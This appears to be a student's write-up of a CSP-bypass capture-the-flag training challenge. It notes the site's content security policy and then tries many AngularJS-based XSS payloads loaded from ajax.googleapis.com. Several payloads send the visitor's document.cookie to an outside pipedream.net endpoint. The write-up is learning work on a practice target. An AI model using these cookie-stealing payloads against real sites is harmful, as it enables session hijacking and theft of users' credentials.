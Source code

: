 string website = "https://csp.training.jinblack.it/";
string checker = "https://checker.training.ctf.necst.it/";
## CSP
default-src https://www.google.com https://ajax.googleapis.com 'unsafe-eval';
style-src 'self' https://maxcdn.bootstrapcdn.com/bootstrap/;
font-src 'self' https://maxcdn.bootstrapcdn.com/bootstrap/;
object-src 'none'

## WRITE UP
  - First : the index.html we have found states that no js is in use in this website, only plain html,
  - Second : I notice that css.css is empty and that its GET request returns a 404 ERR_ABORTED
  - Third : I notice that the html has a bootstrap.min.css from  https://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/css/bootstrap.min.css with crossorigin = anonymous

  Q: What exactly is crossorigin ? It is an HTML attribute which provides CORS support , defining how the element handles crossorigin requests, thereby enabling the
     configuration of CORS requests for the element's fetched data.
     The content of such an attribute is a CORS settings attribute, such attributes are enumerated
     :: anonymous || CORS requests for this element will have the credentials flag set to 'same-origin'

     This means that there will be NO EXCHANGE of USER CREDENTIALS via cookies, client-side SSL certificates or HTTP authentication, UNLESS it is IN THE SAME ORIGIN

I'm presented with an index.html where I can insert
  - Name
  - Location
  - Description
  - Options (this one could be interesting)

Later on another page is rendered with the previously inputted things  and the Site asks us to tick some options, input our name, and it also lets us make comments
https://csp.training.jinblack.it/poll/698e1d35bd4e408ab3e7d54bfbeedae6
I'm suspicious on what the numbers after poll/ are, probably some sort of session token or id for what I've inputted
In fact whenever I change it I'm brought to a 404..

If I click on the add I'm brought to
https://csp.training.jinblack.it/choose
and I'm given a 500 Internal Server Error

If I submit a comment I can either "Increase the universe's entropy" by posting a comment which gets a POST request to the poll or I could Close the form

## IDEA
First draft : publish something compromising on the comments and check what happens whenever the admin visits it
I think I could take advantage of maxcdn.bootstrapcdn , and see whether or not it hosts something I could exploit !
Please take notice that it is only available for style-src and font-src as such you CANNOT exploit to do anything useful

On the other hand https://ajax.googleapis.com is surely interesting, will it contain angularjs ?
I directly search for the url and I get redirected to https://developers.google.com/speed/libraries

I need to do a trick similiar to babycsp, as I think that I will not be able to do sh^t with the fetch instruction  
><script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js"></script><div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>

The comment works , but please note that the admin is just going to visit the page, so we should get something that opens on page visit
"><script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js"></script><div ng-app ng-csp id=p ng-click=$window.open('https://ennwzvkmkf3a21o.m.pipedream.net'+document.cookie,'_blank')>

we now have to check the right directive ,which will be ng-init
"><script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.min.js"></script><div ng-app ng-init=$event.view.alert(1337)>


<div ng-app="" ng-init="constructor.constructor('$window.location.href = \'https://ennwzvkmkf3a21o.m.pipedream.net\' + document.cookie')()" class="ng-scope">AAAAA</div>
<script src="//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script>

It seems that I'm not able to leverage google's ajax apis even when trying to do a simple visit, the only thing I can do is a

<script src="//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script><div ng-app ng-csp id=p ng-init="constructor.constructor('window.location.href = \'https://ennwzvkmkf3a21o.m.pipedream.net\' + document.cookie')()" class="ng-scope">Testando</div>

This version of the exploit now results in an internal server error, something is up !

<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script><div ng-app ng-csp id=p ng-init="alert(1337)" class="ng-scope">Testando</div>

This version doesn't give us anything because it violates the style src CSP , what happens if I remove the Text ?

<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script><div ng-app ng-csp id=p ng-init="$window.view.alert(1337)" class="ng-scope">

I'll start from the beginning, seeing if I can send an on-click request to my endpoint !

><script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js"></script><div ng-app ng-csp id=p ng-click="constructor.constructor('$window.location.href = \'https://ennwzvkmkf3a21o.m.pipedream.net\' + document.cookie')()" class="ng-scope">

This still returns me the 500 Internal server error , something is really up! maybe it should be url encoded ?

><script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js"></script><div ng-app ng-csp id=p ng-click="constructor.constructor('window.location.href ='https://ennwzvkmkf3a21o.m.pipedream.net/' + document.cookie')()" class="ng-scope">

Still 500 Internal Server Error, so I want to go back at the basics and see whether or not is the constructor.constructor() or the window.location being the cause of the bug

><script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js"></script><div ng-app ng-csp id=p ng-click="constructor.constructor('alert(1338)')()" class="ng-scope">

Ok it WORKS !! What is the problem ? I guess there's something wrong with how the string is constructed, also, the AngularJS version we were running (1.8.2) patched the
sandbox escape exploit

><script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.1.5/angular.min.js"></script><div ng-app ng-csp id=p ng-click="constructor.constructor('$window.location.href=\'https://ennwzvkmkf3a21o.m.pipedream.net/cspISONLINE\' ')()" class="ng-scope">

With just window.location.href nothing happens while with $window we get the error that it is not defined...

<a id="this" onLoad="document.getElementById('this').click()" ng-app ng-csp ng-click="$event.view.window.location.href='https://ennwzvkmkf3a21o.m.pipedream.net/'%2bdocument.cookie" href="."><script src="//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script>text</a>

<a id="this" onLoad="document.getElementById('this').click()" ng-app ng-csp ng-click="$event.view.alert(1335)"><script src="//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js" href="."></script>text</a>


<a id="payload" onload="document.getElementById('payload').click()" ng-app ng-csp ng-click="$event.view.alert(1337)" href="https://ennwzvkmkf3a21o.m.pipedream.net/'%2bdocument.cookie"><script src="//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script>text</a>


<h2>PAYLOAD</h2><a id="payload" ng-init="document.getElementById('payload').click();$event.view.alert('MACUMUFICIFARI')" ng-app ng-csp ng-click="$event.view.alert('FU')" ><script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script>text</a>

<h2>Payload</h2><script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script>
  <div ng-app="ciao" data-ng-init="$scope.onloadFun=alert(111)">
  </div>

  <h2>Payload</h2><a id="idk" onload="$window.view.alert(12)" ng-app ng-csp><script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script>pocoserio</a>






<iframe src="about:blank" width="300" height="250" scrolling="no" frameborder="0" marginwidth="0" marginheight="0" onLoad="document.getElementById('payload').click()">

</iframe>
<a id="this" onLoad="document.getElementById('this').click()" ng-app ng-csp ng-click="$event.view.window.location.href='https://ennwzvkmkf3a21o.m.pipedream.net/'%2bdocument.cookie" href="."><script src="//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script>text</a>
